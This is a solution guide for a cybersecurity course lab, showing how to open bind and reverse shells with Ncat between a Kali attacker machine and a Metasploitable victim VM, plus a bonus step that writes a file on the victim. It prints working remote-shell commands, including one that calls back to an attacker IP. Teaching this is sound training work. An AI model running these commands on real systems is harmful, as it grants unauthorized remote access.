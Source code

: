 ## Solution Guide: Bind and Reverse Shells and Ncat

The goal of this activity was to manually use Ncat to establish backdoors on remote hosts. Please note because IPs are not static, your answers may slightly vary. 

--- 

1. **Bind shell**: Using Ncat, set up a listener on the victim's machine so you can connect to it from the attacker's machine. After testing it, document the following: 

   - Which commands did you run on the Metasploitable machine? 

      - `nc -lvnp 4444 -e /bin/bash`

    - Which commands did you run on the Kali machine?

      - `nc 192.168.0.10 4444`

    -  Explain the syntax of of any options used.

          - `-l`: Tells Ncat to listen for incoming connection .
          - `-n`: Indicates that we are listening for numeric IP addresses.
          - `-v`: Means verbose, which will print more information about the connection.
          - `-p <port number>`: Specifies which port to listen on. 
          - `-e`: Executes a bash shell, specifically, `/bin/bash`.



2. **Reverse shell**: Using Ncat, set up a listener on the attacker's machine that is prepared for the victim's machine to connect back to it. After testing it, document the following: 

    - Which commands did you run on the Metasploitable machine? 

        - `nc 192.168.0.08 4444 -e /bin/bash`

    - Which commands did you run on the Kali machine?

        - `nc -lvnp 4444`


 
### Bonus  

Re-exploit the victim's machine, and create a `hacked.txt` file in their home folder. Verify you created the .txt file successfully by logging into the metasploitable machine and reading it. 

- Solution: `cd /home/msfadmin && echo "You've been hacked!" >> hacked.txt`


---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
